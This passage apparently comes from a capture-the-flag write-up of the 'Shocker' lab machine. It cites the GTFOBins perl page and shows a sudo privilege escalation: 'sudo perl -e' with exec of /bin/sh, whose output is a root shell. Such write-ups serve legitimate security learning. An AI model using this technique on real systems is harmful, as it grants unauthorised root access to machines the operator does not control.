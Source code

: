 GTFOBins has a page on perl at [https://gtfobins.github.io/gtfobins/perl/](https://gtfobins.github.io/gtfobins/perl/), and a simple -e flag and use of the exec function allows us to get root and root.txt to complete the box.

```
shelly@Shocker:/usr/lib/cgi-bin$ sudo perl -e 'exec "/bin/sh";'
# whoami
root
# 
```
